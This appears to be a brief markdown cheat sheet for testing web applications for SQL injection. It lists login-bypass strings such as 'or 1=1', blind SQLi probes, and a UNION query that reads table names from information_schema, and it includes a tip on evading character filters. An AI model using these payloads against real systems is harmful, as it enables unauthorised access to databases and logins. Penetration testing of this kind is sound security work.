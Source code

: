 ### Testing for SQLi
````
admin' #
````

````
' or 1=1--'
````


### Testing for Blind Query SQLi
* Blind SQLi queries the database for true and false questions and evaluates the responses from the web server.
````
1' and 1=1
1' order by 1
````

* The following will execute, although the password is wrong. This is because or 1=1 is always a true statement.
````
aaa' or 1=1 #
````



### Testing for Union Query SQLi
* Also attempt to inject without the quote. Stricter security protocols will be looking for illegal characters that will even pick up encodings
````
1' union select table_name, 2 from information_schema.tables
````




